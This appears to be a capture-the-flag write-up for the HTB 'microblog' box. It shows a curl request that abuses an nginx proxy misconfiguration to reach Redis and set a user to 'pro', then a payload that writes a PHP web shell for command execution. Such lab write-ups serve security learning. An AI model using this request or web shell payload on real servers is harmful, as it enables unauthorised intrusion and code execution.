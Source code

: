 At first this took me time but then after research I found that there can be misconfiguration in [nginx](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)

In our case the misconfiguration is:
![[Pasted image 20230605103151.png]]
```
    location ~ /static/(.*)/(.*) { 
        resolver 127.0.0.1; 
        proxy_pass http://$1.microbucket.htb/$2;
```

From the blog we can chain it with redis and this is good cause from the `edit/index.php` the `provisionProUser()` function connects to redis then checks if the `user` is a `pro user`  

Here's the command I used to set my user to pro
![[Pasted image 20230605103945.png]]
```bash
curl -X HSET "http://microblog.htb/static/unix:/var/run/redis/redis.sock:pwner pro true a/b"
```

On refreshing the `app` subdomain we can see we are now a pro user
![[Pasted image 20230605104052.png]]

Back to the source we also have arbitrary file write
```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

Let's now take advantage of it
![[Pasted image 20230605104621.png]]
```
id=/var/www/microblog/pwner/uploads/pwned.php&txt=<%3fphp+system($_GET['cmd'])%3b+%3f>
```

We can now run commands
![[Pasted image 20230605104718.png]]

Lets now get a reverse shell
![[Pasted image 20230605104907.png]]
